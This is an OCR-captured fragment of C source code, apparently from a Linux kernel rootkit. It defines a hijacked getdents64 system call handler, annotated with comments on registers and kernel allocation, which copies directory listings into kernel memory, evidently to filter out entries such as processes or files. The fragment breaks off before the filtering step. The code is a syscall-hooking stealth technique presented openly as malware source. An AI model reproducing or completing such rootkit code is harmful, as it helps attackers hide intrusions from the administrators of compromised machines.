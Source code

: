                     static asmlinkage long hacked_getdents64(const struct pt_regs *pt_regs)
                    {
                      /* Dependent registers:
                      * rax: contains syscall ids = 0xd9
                      * rdi: which contains the file descriptor = unsigned int fd
                      * rsi: which contains the passed arguments = struct linux_dirent64 __user *dirent; "__user" => this pointer resides in user space
                      * rdx: length of the passed argument(or string) = unsigned int count
                      */

                      // Storing file descriptor to uniquely identifies an open file 
                      int fd = (int) pt_regs->di;

                      /* User space related variable
                      * Storing the name of the file in a directory passed from user space via "si" register
                      */
                      struct linux_dirent *dirent = (struct linux_dirent *) pt_regs->si;

                      int ret = orig_getdents64(pt_regs), err;

                      // kernel space related variables
                      unsigned short proc = 0;
                      unsigned long offset = 0;
                      struct linux_dirent64 *dir, *kdirent, *prev = NULL;

                      //For storing the directory inode value
                      struct inode *d_inode;

                      if (ret <= 0)
                        return ret;

                      /* link: https://elixir.bootlin.com/linux/v5.11/source/include/linux/slab.h#L680
                      * 
                      * kzalloc - allocate memory. The memory is set to zero.
                      * @size: how many bytes of memory are required.
                      * @flags: the type of memory to allocate (see kmalloc).
                      *
                      * static inline void *kzalloc(size_t size, gfp_t flags)
                      */
                      /* link: https://elixir.bootlin.com/linux/v5.11/source/include/linux/slab.h#L538
                      *
                      * Below is a brief outline of the most useful GFP flags
                      * %GFP_KERNEL
                      *	Allocate normal kernel ram. May sleep.
                      */
                      kdirent = kzalloc(ret, GFP_KERNEL);

                      if (kdirent == NULL)
                        return ret;

                      // Copying directory name (or pid name) from userspace to kernel space
                      err = copy_from_user(kdirent, dirent, ret);
                      if (err)
                        goto out;

                      // Storing the inode value of the required directory(or pid) 
                      d_inode = current->files->fdt->fd[fd]->f_path.dentry->d_inode;

